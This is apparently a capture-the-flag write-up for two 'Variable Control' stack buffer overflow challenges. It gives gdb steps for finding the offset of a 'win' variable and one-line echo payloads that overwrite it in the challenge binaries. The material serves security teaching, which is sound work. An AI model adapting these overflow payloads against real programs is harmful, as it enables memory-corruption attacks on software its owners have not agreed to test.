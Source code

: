 # Variable Control

## Variable Control (easy)

As told in the debug output, the win variable is 64 bytes from input buffer and has to be set to 0x6eb781f0

```shell
echo -e -n "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xf0\x81\xb7\x6e" | /challenge/binary-exploitation-var-control-w
```

## Variable Controle (hard)

1. In gdb, `disas challenge`, we get to know:
    - win is at **rbp-0x18** = rbp-24
    - lose is at **rbp-0x14** = rbp-20
    - win has to be changed to **0x5a3c1e5a**

2. Set a breakpoint `b *challenge+163`, run and give a long string of a's as input
3. `info frame` -> rbp is at **0x7ffcc2692280**
4. `x/100xg $rbp-200` -> input buffer starts at **0x7ffcc2692230**, which is **rbp-0x50** = rbp-80
5. 56 a's followed by desired value:

    ```shell
    echo -n -e "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x5a\x1e\x3c\x5a" | /challenge/binary-exploitation-var-control 
    ```

